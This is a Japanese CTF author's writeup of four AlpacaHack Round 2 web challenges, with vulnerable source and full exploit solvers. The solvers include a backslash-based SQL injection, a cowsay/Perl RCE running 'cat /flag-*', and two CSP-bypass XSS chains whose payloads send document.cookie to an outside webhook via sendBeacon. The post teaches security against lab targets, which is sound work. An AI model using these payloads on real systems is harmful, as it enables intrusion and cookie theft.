



import {Tweet} from "@site/src/components/tweet";

[AlpacaHack](https://alpacahack.com/)は個人戦のCTFを継続して開催する新しいCTFプラットフォームです。[keymoon](https://x.com/kymn_)と[minaminao](https://x.com/vinami)が中心メンバーとなって動いており、最近リリースされました:tada:

- [AlpacaHack Round 2 (Web)](https://alpacahack.com/ctfs/round-2)

今回はWeb回であるRound 2の作問を担当しました。ご参加いただいた方々、ありがとうございました。参加登録した人数を数えると300！？ありがたすぎる...[^intro-01]

[^intro-01]: 加えて、あまり広くリーチできていなかったというのと、タイムゾーンの問題があったにもかかわらず、海外の強い方にも多く参加してもらえてびっくり&感謝です。[CTFTime](https://ctftime.org/event/2465/)に登録したのも一定以上の効果があったりする？

AlpacaHackには[writeupを投稿する機能](https://alpacahack.com/ctfs/round-2/writeups)があるので、ぜひwriteupを書いて投稿してみてください。upsolveもOKです[^intro-02]。また、今後の作問・運営のためにもGoogleフォームでのfeedbackをいただけると非常に助かります。単純にモチベーションにもつながります。SNS上での感想も大歓迎です。

[^intro-02]: AlpacaHackは常設CTFでもあるので、終わったCTFも実際にリモート環境でテストすることが可能です！

<Tweet html='<blockquote class="twitter-tweet"><p lang="en" dir="ltr">Round 2 (Web) just ended 🦙<br>Thank you to all the players who participated!<br><br>Congratulations to the top 5 players:<br>1. icesfont<br>2. <a href="https://twitter.com/st98_?ref_src=twsrc%5Etfw">@st98_</a><br>3. dimas<br>4. harrier<br>5. <a href="https://twitter.com/hiikun_Z?ref_src=twsrc%5Etfw">@hiikun_Z</a> <a href="https://t.co/2OQvACEsWr">pic.twitter.com/2OQvACEsWr</a></p>&mdash; AlpacaHack (@AlpacaHack) <a href="https://twitter.com/AlpacaHack/status/1830168866619875631?ref_src=twsrc%5Etfw">September 1, 2024</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>'></Tweet>

さて、今回は以下の問題をつくりました。本記事はそのwriteupになります。

|Challenge|Category|Keywords (spoiler)|Solved|
|:-:|:-:|:-:|:-:|
|Simple Login|web|SQL injection|84|
|Pico Note 1|web|CSP bypass, JavaScript|10|
|CaaS|web|RCE, Perl|13|
|Pico Note 2|web|Import Maps|3|

<!-- truncate -->

## Simple Login

- 108 pts (84 solves)
- https://alpacahack.com/ctfs/round-2/challenges/simple-login

問題文:
> A simple login service :)
>
> - Attachments: simple-login.tar.gz

### 問題概要

自明なSQLiの脆弱性が存在しますが、`'`の文字がパラメータに含まれるとリクエストが拒否されます。どうにかこの制約の中でSQLiを成功させて、DB上の情報を抜き出せますか？という問題です。

```python title="web/app.py"
# ... 省略 ...

@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")

        if username is None or password is None:
            return "Missing required parameters", 400
        if len(username) > 64 or len(password) > 64:
            return "Too long parameters", 400
        if "'" in username or "'" in password:
            return "Do not try SQL injection 🤗", 400

        conn = None
        try:
            conn = db()
            with conn.cursor() as cursor:
                cursor.execute(
                    f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
                )
                user = cursor.fetchone()
        except Exception as e:
            return f"Error: {e}", 500
        finally:
            if conn is not None:
                conn.close()

        if user is None or "username" not in user:
            return "No user", 400

        response = redirect("/")
        response.set_cookie("username", user["username"])
        return response
    else:
        return render_template("login.html")
```

フラグはDB内の`flag`テーブルに存在します。

```sql title="db/init.sql （一部抜粋）"
CREATE TABLE IF NOT EXISTS flag (
    value VARCHAR(128) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_bin;

-- On the remote server, a real flag is inserted.
INSERT INTO flag (value) VALUES ('Alpaca{REDACTED}');
```

### 想定解法

`'{username}'`か`'{password}'`のどちらかでうまく文字列から抜けて任意のSQL文を記述させることが目標です。

ここで`username`の値が`\`だった場合を考えてみましょう。利用しているDBMSであるMySQL 8.0は、[ドキュメント](https://dev.mysql.com/doc/refman/8.0/ja/string-literals.html)によれば、文字列中に`\'`と記述することによって`'`の文字を表すことが可能です。よって、本来文字列の終了を期待している`'`が文字列のひとつの文字として認識され、後続のSQL文も文字列と解釈されるようになります。つまり、`'\' AND password = '`が文字列リテラルとして解釈されます。

よって、`password`の入力値においてはすでに文字列の外に脱出できているため、あとは一般的なSQL injectionの要領で他のテーブルの情報を盗みだせばOKです。

### ソルバ

```python
import os
import httpx

HOST = os.getenv("HOST", "localhost")
PORT = int(os.getenv("PORT", 3000))

client = httpx.Client(base_url=f"http://{HOST}:{PORT}")

res = client.post(
    "/login",
    data={
        "username": "\\",
        "password": "UNION SELECT value, value from flag -- ",
    },
    follow_redirects=True,
)
print(res.text)
```

### 感想/補遺

典型ではあるものの、少しひねりが必要なSQL injectionの問題を1問目として出題してみました。エスケープ自体はMySQLにかかわらず一般的なプログラミング言語にも存在するため、仕様を知らなくても、色々と試行錯誤したり調べたりしてるうちに思いつくことを意図しています。

補足として、文字列での`\`によるエスケープはDBMSに共通する仕様ではないので注意が必要です。

## Pico Note 1

- 277 pts (10 solves)
- https://alpacahack.com/ctfs/round-2/challenges/pico-note-1

問題文:
> The template engine is very simple but powerful 🔥
>
> - Attachments: pico-note-1.tar.gz

### 問題概要

シンプルなノートアプリが与えられます。ユーザは`title`と`content`のパラメータを指定して、それらを表示することが可能です。

```javascript title="web/index.js"
import Fastify from "fastify";
import crypto from "node:crypto";
import { promises as fs } from "node:fs";

const app = Fastify();
const PORT = 3000;

// A simple template engine!
const render = async (view, params) => {
  const tmpl = await fs.readFile(`views/${view}.html`, { encoding: "utf8" });
  const html = Object.entries(params).reduce(
    (prev, [key, value]) => prev.replace(`{{${key}}}`, value),
    tmpl
  );
  return html;
};

app.addHook("onRequest", (req, res, next) => {
  const nonce = crypto.randomBytes(16).toString("hex");
  res.header("Content-Security-Policy", `script-src 'nonce-${nonce}';`);
  req.nonce = nonce;
  next();
});

app.get("/", async (req, res) => {
  const html = await render("index", {});
  res.type("text/html").send(html);
});

app.get("/note", async (req, res) => {
  const title = String(req.query.title);
  const content = String(req.query.content);

  const html = await render("note", {
    nonce: req.nonce,
    data: JSON.stringify({ title, content }),
  });
  res.type("text/html").send(html);
});

app.listen({ port: PORT, host: "0.0.0.0" });
```

フラグはadmin botのクッキーにセットされるため、XSSによってそれを奪取するのがゴールです。

### 想定解法

```javascript
  const html = await render("note", {
    nonce: req.nonce,
    data: JSON.stringify({ title, content }),
  });
```
によって、ユーザの入力値がJSON文字列として変換されたあとに、
```html
    <script nonce="{{nonce}}">
      const { title, content } = {{data}};
      document.getElementById("title").textContent = title;
      document.getElementById("content").textContent = content;

      document.getElementById("back").addEventListener("click", () => history.back());
    </script>
```
の`{{data}}`の箇所にそれが挿入されます。

`<script>`要素内への挿入であるため、一見すると簡単にXSSに持ち込めそうです。しかし、JSON文字列に変換されており、JSONはJavaScriptのサブセットである[^pico-note-1-01]ため、JSONの外に脱出することはできません。

[^pico-note-1-01]: 厳密にはサブセットではありません。興味がある人は調べてみてください。

しかし、冷静になって考えると`</script>`の文字列を含めることによって`<script>`要素を脱出することは可能です。よって、後続の文字列部分で自由なHTMLを記述することが可能になりました。

さて、本問題では以下のCSPが設定されており、nonceを適切に指定しないとscriptの実行ができません:
```javascript
app.addHook("onRequest", (req, res, next) => {
  const nonce = crypto.randomBytes(16).toString("hex");
  res.header("Content-Security-Policy", `script-src 'nonce-${nonce}';`);
  req.nonce = nonce;
  next();
});
```

どうにかしてnonceの値を引っ張り出し、
```html
</script><script nonce="{{nonce値}}">/* 実行させたいscript */</script>
```
のような文字列を挿入させたいです。

ここで、この問題特有の処理である自作テンプレートエンジンの実装を眺めてみましょう:
```javascript
// A simple template engine!
const render = async (view, params) => {
  const tmpl = await fs.readFile(`views/${view}.html`, { encoding: "utf8" });
  const html = Object.entries(params).reduce(
    (prev, [key, value]) => prev.replace(`{{${key}}}`, value),
    tmpl
  );
  return html;
};
```

結論から言うと、このテンプレートエンジンに脆弱性が存在し、それは
```javascript
prev.replace(`{{${key}}}`, value)
```
の箇所です。`replace`のMDNのページを眺めてみるとおもしろい仕様があることに気づきます:

- https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/String/replace#置換文字列としての文字列の指定



つまり、挿入文字列の中に
```
$`
```
を含めることによって、挿入箇所の前に存在する文字列の参照が可能になり、また、そこには
```javascript
<script nonce="{{nonce}}">
```
の文字列が存在するため、いい感じにnonce値を拾ってくることが可能ということがわかります。

実際に`title`の値を
```html
</script>$`console.log(123);</script>
```
に設定すると、
```html
</script><!DOCTYPE html>
<html>
  <head>
<!-- ...省略... -->
    </div>
    <script nonce="{{nonce}}">
      const { title, content } = console.log(123);</script>
```
のように展開されて、任意スクリプトの実行が可能になります。

### ソルバ

以下のソルバを実行すると、`HOOK_URL`にフラグが送信されます。

```python
import os
import httpx
import urllib.parse

HOST = os.getenv("HOST", "localhost")
BOT_PORT = int(os.getenv("BOT_PORT", 1337))
WEB_PORT = int(os.getenv("WEB_PORT", 3000))

HOOK_URL = os.environ["HOOK_URL"]

client = httpx.Client(base_url=f"http://{HOST}:{BOT_PORT}")

res = client.post(
    "/api/report",
    json={
        "url": f"http://web:3000/note?title={urllib.parse.quote(f"</script>$`navigator.sendBeacon('{HOOK_URL}?' + document.cookie);</script>")}",
    },
    timeout=10,
)
print(res.text)
```

### 感想/補遺

JavaScriptのreplace関数の謎仕様を利用してCSP bypassを行う問題でした[^pico-note-1-02]。この仕様を使った問題は過去のCTFで何度か遭遇したことがある[^pico-note-1-03]ので新規性というわけではないのですが、自然な実装に擬態させたつもりなので気づくのに難しいタイプの問題だったと思います。

ところで、今回出題した4問は想定難易度の順番に並べてましたが、Pico Note 1のsolvesは次の問題であるCaaSのsolvesよりも少なく、予想は失敗です。難易度予想はむずかしいなあ...やらかし1です。

[^pico-note-1-02]: 最初は`replace`ではなく`replaceAll`を使ってましたが、レビュワーから「`replaceAll`のMDNのページには該当の仕様の記述がなく、知らない人が想定解にたどり着くのは困難」という指摘を受け、たしかにと思い`replace`に変更しました。実際、`replaceAll`のままだった場合として、難易度がどの程度変わるのかは気になるところです。

[^pico-note-1-03]: 記憶しているところではDragon CTF 2021のweb/webpwnで初めて遭遇しました（参考: https://balsn.tw/ctf_writeup/20211127-dragonctf2021/#webpwn ）。これは、replaceAllの仕様を悪用してSQLiを行う問題です。

## CaaS

- 248 pts (13 solves)
- https://alpacahack.com/ctfs/round-2/challenges/caas

問題文:
> 🐮📢 < Hello!
>
> - Attachments: caas.tar.gz

### 問題概要

入力テキストに対してcowsayを実行してくれるサービスが与えられます。



cowsayの実行には[zx](https://github.com/google/zx)が使われています。

```javascript
import express from "express";
import crypto from "node:crypto";
import { $ } from "zx";

const app = express();
const PORT = 3000;

app.use(express.static("public"));

app.get("/say", async (req, res) => {
  const { message = "Hello!" } = req.query;

  try {
    const uuid = crypto.randomUUID();
    await $({
      cwd: "public/out",
      timeout: "2s",
    })`/usr/games/cowsay ${message} > ${uuid}`;
    res.send({ uuid });
  } catch ({ exitCode }) {
    res.status(500).send(exitCode ? "error" : "timeout");
  }
});

app.listen(PORT);
```

フラグは乱数ファイル名でサーバ上に存在するため、ゴールはRCEのようです。
```Dockerfile
RUN mv flag.txt /flag-$(md5sum flag.txt | cut -c-32).txt
```

### 想定解法

わざわざコマンドを実行させていることから、OSコマンドインジェクション、もしくはそれに近い何かができることが予想されます。

コマンドの実行にはタグ関数が用いられており[^caas-01]、zxのドキュメントを見る限り自動的にパラメータがエスケープされるため、OSコマンドインジェクションは不可能に見えます:

- 参考: https://google.github.io/zx/getting-started#command

[^caas-01]: タグ関数によっていい感じにエスケープされるようなインターフェイスは最近よく見ます。コマンド呼び出しだとzx以外にBunも[同様のインターフェイスのAPI](https://bun.sh/docs/runtime/shell)を提供していますし、SQLだと[Slonik](https://github.com/gajus/slonik)あたりがそうです。JavaScriptの言語機能をうまくSecure by Defaultなインターフェイスとして活用できていて、良い流れだなと思っています。

ところでExpressはデフォルトのクエリパーサとして[qs](https://github.com/ljharb/qs)を利用しており、パラメータ`message`は文字列以外にも配列やオブジェクトを指定することが可能です。今回の問題設定だと、配列にすることでコマンド呼び出し時の引数を任意に増やすことが可能になります。

`-f`オプションによって、cowfileを指定して実行する例:
```sh
$ http --body "http://localhost:3000/say?message[]=-f&message[]=/usr/share/cowsay/cows/fox.cow&message[]=hogehoge"
{
    "uuid": "81196063-a4c8-4f79-8ba0-d90463309ce8"
}

$ http --body "http://localhost:3000/out/81196063-a4c8-4f79-8ba0-d90463309ce8"
 __________
< hogehoge >
 ----------
         \     ,-.      .-,
          \    |-.\ __ /.-|
           \   \  `    `  /
                /_     _ \
              <  _`q  p _  >
              <.._=/  \=_. >
                 {`\()/`}`\
                 {      }  \
                 |{    }    \
                 \ '--'   .- \
                 |-      /    \
                 | | | | |     ;
                 | | |.;.,..__ |
               .-"";`         `|
              /    |           /
              `-../____,..---'`
```

これで任意のパスを指定して、そのファイルをcowfileとして実行させることが可能になりました。また、都合が良いことにcowsayの出力結果はファイルとして保存されるため、一度cowsayで出力された結果を再度cowsayにcowfileとして読み込ませることも可能です。これでいい感じにRCEまで持ち込ませることはできないでしょうか？

cowsayのマニュアルを読むとわかることですが、cowfileの実態はPerlです。つまり、cowsayの出力結果でありつつ、PerlとしてvalidなRCEプログラムを構成させることができれば勝ちです。

フラグへの道筋が見えてきたので、あとは`/usr/share/cowsay/cows`にある既存のcowfileとにらめっこしながら、Perlパズルをするだけです。解くときの思考過程はpolyglotのそれに近いかもしれないです。

### ソルバ

解法は色々とあると思いますが、作問者の解法は以下のとおりです:
```python
import os
import httpx
from urllib.parse import quote

HOST = os.getenv("HOST", "localhost")
PORT = int(os.getenv("PORT", 3000))

client = httpx.Client(base_url=f"http://{HOST}:{PORT}")

def cowsay(messages: list[str]) -> str:
  uuid = client.get(f"/say?{"&".join([f"message[]={quote(m)}" for m in messages])}").json()["uuid"]
  return uuid

messages = ["-f", "suse", 'system("cat /flag-*"); s@']
uuid = cowsay(messages)
print(f"{uuid = }")

# ./{uuid}:
# ```perl
#  ___________________________
# < system("cat /flag-*"); s@ >
#  ---------------------------
#   \
#    \____
#   /@    ~-.
#   \/ __ .- |
#    // //  @
# ````

messages = ["-f", f"./{uuid}", "RCE with Cowsay Assistance!"]
uuid = cowsay(messages)
out = client.get(f"/out/{uuid}").text
print(out)
```

`suse.cow`を用いて、また、`s/foo/bar/`形式の置換を組み合わせることによっていい感じにPerlとしてvalidになるように構成しています。実は区切り文字は`/`じゃなくても問題なく、`@`を区切り文字として使っています。これは古い言語あるある仕様です。

### 感想/補遺

この問題は自由度が高いパズルなので、人それぞれ最終的なソルバが異なっており、十人十色な答えが見れると楽しみにしてました。私は`s/foo/bar/`を用いましたが、その他、ヒアドキュメントや`__END__`を用いた解法もあったみたいです。

ぜひwriteupを書いて、https://alpacahack.com/ctfs/round-2/writeups に共有してみてください。

## Pico Note 2

- 428 pts (3 solves)
- https://alpacahack.com/ctfs/round-2/challenges/pico-note-2

問題文:
> How many note applications have I created for CTFs so far? This is one of them.
>
> - Attachments: pico-note-2.tar.gz

### 問題概要

ノートアプリが与えられます。ノートはtitleとcontentの組になっていて、複数投稿することが可能です。



フラグはadmin botのクッキーにセットされるため、XSSによってそれを奪取するのがゴールです。

### 想定解法

まずはCSPを確認しましょう。CSPの設定は以下のようになっていて、スクリプトの実行に制限があります:
```javascript
const getIntegrity = (content) => {
  const algo = "sha256";
  const value = crypto
    .createHash(algo)
    .update(Buffer.from(content))
    .digest()
    .toString("base64");
  return `${algo}-${value}`;
};

app.use((req, res, next) => {
  const notes = req.session.notes ?? [];
  res.locals.notes = notes;

  const hashSource = notes
    .map((note) => `'${getIntegrity(JSON.stringify(note))}'`)
    .join(" ");

  const nonce = crypto.randomBytes(16).toString("base64");
  res.header(
    "Content-Security-Policy",
    `script-src 'nonce-${nonce}' ${hashSource};`
  );
  res.locals.nonce = nonce;

  next();
});
```

次にユーザの入力値（つまり、ノートのtitle/content）の挿入のされ方を確認しましょう。

ユーザの各ノートはJSON文字列として`<script type="application/json" integrity="...">`内に挿入されています。

```javascript title="web/index.js の一部"
const SCRIPTS_TMPL = `
<div id="scripts">
  <% for (const note of notes) { %>
    <% const json = JSON.stringify(note); %>
    <script type="application/json" integrity="<%= getIntegrity(json) %>"><%- json %></script>
  <% } %>
</div>
`.trim();

app.get("/", (req, res) => {
  const scripts = new JSDOM(
    ejs.render(SCRIPTS_TMPL, {
      notes: res.locals.notes,
      getIntegrity,
    })
  ).window.scripts?.innerHTML;

  res.render("index", { scripts });
});
```

そして、クライアント上の処理で、埋め込まれたノートがDOMに追加されていきます。

```html title="web/views/index.ejs"
<!DOCTYPE html>
<html>
  <head>
    <!-- ...省略... -->
  </head>

  <body>
    <h1>Pico Note 2</h1>

    <form action="/create" method="post">
      <div style="margin-bottom: 1em">
        <div class="nes-field">
          <label for="name_field">Title</label>
          <input type="text" name="title" class="nes-input" required />
        </div>
        <div class="nes-field">
          <label for="name_field">Content</label>
          <input type="text" name="content" class="nes-input" required />
        </div>
      </div>
      <div style="display: flex; justify-content: center">
        <button type="submit" class="nes-btn">Post</button>
      </div>
    </form>

    <%- scripts %>
    <script type="module" src="/app.js" nonce="<%= nonce %>"></script>
  </body>
</html>
```

```javascript title="web/app.js"
import DOMPurify from "https://cdn.jsdelivr.net/npm/dompurify@3.1.6/+esm";

const elements = document.querySelectorAll("script[type='application/json']");

for (const elm of elements) {
  const { title, content } = JSON.parse(elm.textContent);
  document.body.innerHTML += DOMPurify.sanitize(
    `
      <div class="nes-container is-dark with-title">
        <p id="title" class="title">${title}</p>
        <p id="content">${content}</p>
      </div>
    `.trim()
  );
}
```

問題の流れとして、HTML injection → CSP bypass → XSSの順にやっていくと良さそうです。

HTML injectionについてはPico Note 1でやったように`</script>`で脱出することによって容易に可能です。ただし、Pico Note 1とは違ってnonceをうまく盗むことができなさそうで、一筋縄には行きません。

ところで、この問題の特異な点として、CSPの設定において通常のnonceに加え、各ノートのJSONについてhash形式のsourceが追加されるようになっています。これをうまく利用する手はないでしょうか？

まず、ノート作成時のAPIについてですが、`req.body`に対して一切制限がなく、Expressのデフォルトのクエリパーサqsが利用されていることから、好きなオブジェクトをノートとして作成することが可能です:
```javascript
app.post("/create", (req, res) => {
  const notes = res.locals.notes;
  notes.push(req.body);
  req.session.notes = notes;
  res.redirect("/");
});
```

これによって、任意のJSON文字列のintegrityをscript-srcに登録することが可能になりました。これは、任意のJSON文字列をJavaScriptとして実行させることが可能になっただけで何も役に立たなさそうですが、実はそれ以外にも可能になったことがあります。

結論から言うと答えはImport Mapsで、JSONでmoduleの解決を定義する機能です:

- https://developer.mozilla.org/ja/docs/Web/HTML/Element/script#importmap%20によるモジュールのインポート
- https://developer.mozilla.org/ja/docs/Web/HTML/Element/script/type/importmap

Import Mapsによってmoduleの解決方法を改竄し、XSSに持っていけるとうれしいです。

具体的には
```javascript
import DOMPurify from "https://cdn.jsdelivr.net/npm/dompurify@3.1.6/+esm";
```
の部分のimportを以下のImport Mapsによって上書きすればそれが可能です:
```javascript
{
  "imports": {
    "https://cdn.jsdelivr.net/npm/dompurify@3.1.6/+esm": "data:text/javascript,export default console.log(123)"
  }
}
```

あとは、これをうまく発火させるように、以下の2つのノートをCSRFで作成させればOKです:

- 1つ目のノート: `</script>`による脱出後に、上記Import Maps用の`type=importmap`の`<script>`要素をHTML injectionで作成する。
- 2つ目のノート: 上記Import MapsのJSONのintegrityをscript-srcに追加する。

### ソルバ

以下のHTMLを適当にサーブしてそのURLをbotにreportすると、`HOOK_URL`にフラグが送信されます。

```html
<body>
  <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.2.0/crypto-js.min.js"></script>

  <script>
    const BASE_URL = "http://web:3000";

    // Edit this URL
    const HOOK_URL = "https://webhook.site/xxxxx";

    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

    const getIntegrity = (content) => {
      const value = CryptoJS.enc.Base64.stringify(CryptoJS.SHA256(content));
      return `sha256-${value}`;
    };

    const createNote = async (body) => {
      const form = document.createElement("form");
      form.action = `${BASE_URL}/create`;
      form.method = "post";
      form.target = "_blank";
      for (const [key, value] of Object.entries(body)) {
        const input = document.createElement("input");
        input.name = key;
        input.value = value;
        form.appendChild(input);
      }
      document.body.appendChild(form);
      form.submit();
    };

    const dataUrl = `data:text/javascript,export default navigator.sendBeacon("${HOOK_URL}", document.cookie)`;

    const cdnUrl = "https://cdn.jsdelivr.net/npm/dompurify@3.1.6/+esm";

    // ref. https://developer.mozilla.org/en-US/docs/Web/HTML/Element/script/type/importmap
    const importMap = { imports: { [cdnUrl]: dataUrl } };

    (async () => {
      createNote({
        title: "x",
        content:
          "</" +
          `script><script type=importmap integrity=${getIntegrity(
            JSON.stringify(importMap)
          )} x=`,
      });
      await sleep(1000);

      createNote({
        [`imports[${cdnUrl}]`]: dataUrl,
      });
      await sleep(1000);
    })();
  </script>
</body>
```

### 感想/補遺

Import Mapsという武器によってプログラムの挙動を改変してCSP bypassする問題でした。BABA IS YOUです。

なお、参加者writeupによれば`<base>`によるbaseURL改変によってCSP bypassができたようです。完全に見落としてました...やらかし2です。

## おわりに

今回Web問を4つ出題しました。開催時間は6時間と短く、難易度調整や問題ボリュームの調整が結構むずかしかったです。また、普段の作問では新規性やひらめきを重視してるのですが、今回はCTFでの楽しいポイントであるひらめき要素は大切にしつつ、教育的な内容になるように意識しました（なってたらいいな）。

AlpacaHackは今後も継続してCTFを開催していく予定で、そのうちまた作問をすることになるかもしれません。そのときもよろしくおねがいします。

次回のRound 3は[Xornet](https://x.com/Xornet_)作問によるCrypto回です。ぜひ参加しましょう！

- https://alpacahack.com/ctfs/round-3
